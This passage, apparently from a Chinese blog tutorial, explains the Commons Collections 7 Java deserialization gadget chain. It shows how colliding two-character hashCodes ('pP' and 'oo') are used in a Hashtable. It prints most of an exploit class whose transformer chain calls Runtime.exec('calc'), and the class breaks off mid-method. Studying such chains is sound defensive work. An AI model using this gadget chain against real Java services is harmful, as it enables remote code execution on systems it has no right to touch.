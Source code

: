 在 hashCode 这个方法中，当我们传入两个字符得时候，加密就变成了`31*ASCII(s1[0]) + ASCII(s1[1])`

我们只要构造两个这个数值相同得字符串就可以绕过

```plain
public int hashCode() {
        int h = hash;
        if (h == 0 && value.length > 0) {
            char val[] = value;

            for (int i = 0; i < value.length; i++) {
                h = 31 * h + val[i];
            }
            hash = h;
        }
        return h;
    }
```

完整 exp

```plain
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Hashtable;
import java.util.Map;

public class CommonscollectionsTest {
    public static void main(String[] args) throws Exception {
        Transformer[] fakeformers = new Transformer[]{new
                ConstantTransformer(2)};
        Transformer[] transforms = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class,
                        Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class,
                        Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new
                        Object[]{"calc"}),
        };
        ChainedTransformer chainedTransformer = new
                ChainedTransformer(fakeformers);

        Map innerMap1 = new HashMap();
        innerMap1.put("pP", 1);
        Map innerMap2 = new HashMap();
        innerMap2.put("oo", 1);

        Map lazyMap1 = LazyMap.decorate(innerMap1, chainedTransformer);
        Map lazyMap2 = LazyMap.decorate(innerMap2, chainedTransformer);

        Hashtable hashtable = new Hashtable();
        hashtable.put(lazyMap1, 1);
        hashtable.put(lazyMap2, 2);
        lazyMap2.remove("pP");

        Class clazz = ChainedTransformer.class;
        Field field = clazz.getDeclaredField("iTransformers");
        field.setAccessible(true);
```